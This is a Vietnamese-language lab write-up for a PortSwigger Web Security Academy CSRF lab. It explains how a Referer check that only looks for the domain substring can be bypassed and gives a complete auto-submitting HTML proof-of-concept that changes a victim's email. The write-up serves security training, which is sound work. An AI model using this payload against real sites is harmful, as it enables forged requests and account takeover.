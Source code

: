 ![image](https://github.com/user-attachments/assets/cc5f9f93-15e7-4669-89e0-59424a90b31c)

![image](https://github.com/user-attachments/assets/4511c2d9-365c-4457-8324-607aa893fcda)

![image](https://github.com/user-attachments/assets/26dd72bb-d4aa-4b6b-91cf-2ef82e3afcd3)

Bạn quan sát được sự khác biệt chứ.

Đó chính là nó sẽ check xem cùng domain hay không? nó chỉ quan tâm có cùng domain hay không thôi, và cơ chế check của nó thì tôi có thể đoán được rằng nó đang check xem domain đó có tồn tại trong referer hay không, nếu có thì nó sẽ pass, nó sẽ không quan tâm đằng sau cái domain đó là cái gì.

Và đây sẽ là 1 lỗ hổng giúp ta bypass, tức là giờ ta sẽ tìm cách nối dài cái url này bằng cách query nó chẳng hạn `?`.

```
Referer: https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net
```

Vậy vẫn chưa đủ, tiến hành thêm `<meta name="referrer" content="unsafe-url">`.

Nhiều trình duyệt hiện nay sẽ tự động bỏ query string trong Referer vì lý do bảo mật. Để tránh điều này, thêm tiêu đề Referrer-Policy vào phần <head> của HTML để yêu cầu trình duyệt giữ nguyên URL đầy đủ

Tiến hành tạo 1 cái poc csrf cơ bản

```
<html>
  <head>
    <meta name="referrer" content="unsafe-url">
  </head>
  <body>
    <form action="https://0aca00ec0326dd8f8236fda100c2001b.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="a112dmin&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      // Thêm query string chứa tên miền lab để bypass kiểm tra Referer
      history.pushState('', '', '/?0aca00ec0326dd8f8236fda100c2001b.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
![image](https://github.com/user-attachments/assets/7c773dc0-22e4-4e26-ad81-04112efb148b)

Vậy là đã thành công

## REFERENCES
[1]. https://www.trustedsec.com/blog/setting-the-referer-header-using-javascript

[2]. https://medium.com/@frank.leitner/writeup-csrf-where-token-is-tied-to-non-session-cookie-portswigger-academy-60fb8062363b

[3]. https://medium.com/@uchiha-rem01x/lab-csrf-with-broken-referer-validation-66970e73e484
